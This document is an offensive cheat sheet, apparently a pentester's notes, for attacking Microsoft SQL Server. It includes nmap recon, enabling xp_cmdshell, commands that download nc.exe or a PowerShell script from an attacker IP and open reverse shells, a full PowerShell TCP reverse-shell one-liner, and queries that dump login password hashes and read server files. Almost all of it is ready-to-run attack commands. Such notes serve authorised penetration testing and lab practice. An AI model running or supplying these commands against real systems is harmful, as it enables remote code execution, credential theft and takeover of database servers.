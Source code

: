 # sqli ms-sql

## Recon

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 IP
```

## [mssqlclient.py](https://github.com/SecureAuthCorp/impacket)

```bash
mssqlclient.py DOMAIN/USER:PASS@$IP [-port <>] [-windows-auth]
```

## xp_cmdshell

```bash
# to see if we are sysadmin
# returns 1
SELECT IS_SRVROLEMEMBER ('sysadmin')
SELECT IS_SRVROLEMEMBER('sysadmin', 'sa')
SELECT name FROM master..syslogins WHERE sysadmin = '1'

# xp_cmdshell for reverse shell
EXEC sp_configure 'Show Advanced Options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell "whoami";

# shells
EXEC xp_cmdshell "powershell -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.34/nc.exe','c:\users\public\nc.exe');"
EXEC xp_cmdshell "c:\users\public\nc.exe -e cmd.exe 10.10.14.34 6969"
[OR]
# shell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.34/shell.ps1');"
```

## ms-sql commands

```bash
# comments
--
/* <blah> */

# hostname
@@servername
host_name()

# version
@@version

# read-file
# [C:\boot.ini] OR [C:\\boot.ini]
CREATE TABLE kashz (line varchar(8000));
BULK INSERT kashz FROM '<FILE>';
DROP TABLE kashz;

# users
user_name()
system_user
user [user()]
| SELECT name FROM master..syslogins

# password (SHA-1)
# master.dbo.fn_varbintohexstr(password) => pass to hex-str
# master.sys.fn_varbintohexstr(password_hash) => pass to hex-str
| SELECT name, password FROM master..sysxlogins
| SELECT name, password_hash FROM master.sys.sql_logins

# databases
DB_NAME()
| SELECT name FROM master.sys.databases
| SELECT name FROM master.dbo.sysdatabases
| SELECT name FROM master ..sysdatabases
| EXEC sp_databases
SELECT DB_NAME(N)        # for N:1-n

# tables
SELECT name FROM <DB>..sysobjects WHERE xtype='U'

# cols
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name ='<TABLE>')
SELECT <DB>..syscolumns.name, TYPE_NAME(<DB>..syscolumns.xtype) FROM <DB>..syscolumns, <DB>..sysobjects WHERE <DB>..syscolumns.id=<DB>..sysobjects.id AND <DB>..sysobjects.name='<TABLE>'

# 9th row
SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) ORDER BY name DESC
```

## Config File Paths

* [practicalsbs.wordpress.com/sql-server-file-locations-for-default-instances/](https://practicalsbs.wordpress.com/2016/07/03/sql-server-file-locations-for-default-instances/)

```bash
\DATA\master.mdf
\BACKUP\master.mdf
```

## Error-based

Refer: [perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

```bash
# encode + as %2b if doing url-based.
# force the query to run and show output in error page
convert(int, @@version)--
```

## Full pwnage guide

* [exploit-db.com/12975](https://www.exploit-db.com/papers/12975)

## .mdf extract

* [xpn/Powershell-PostExploitation](https://github.com/xpn/Powershell-PostExploitation)
* **known bug:** [xpn/Powershell-PostExploitation/issues/3](https://github.com/xpn/Powershell-PostExploitation/issues/3)

```bash
# fix in code
[System.Reflection.Assembly]::UnsafeLoadFrom($PSScriptRoot + "\OrcaMDF.RawCore.dll") | Out-Null
[System.Reflection.Assembly]::UnsafeLoadFrom($PSScriptRoot + "\OrcaMDF.Framework.dll") | Out-NUll
```

* [blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)